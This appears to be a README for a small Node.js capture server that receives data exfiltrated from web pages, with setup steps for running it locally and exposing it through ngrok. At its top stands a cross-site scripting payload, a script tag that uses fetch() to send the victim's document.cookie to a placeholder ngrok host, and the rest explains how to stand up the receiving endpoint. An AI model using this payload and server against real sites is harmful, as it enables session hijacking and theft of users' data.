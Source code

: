 ## info
http server capture user data by either sending the data in a query or in the body
```bash
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 
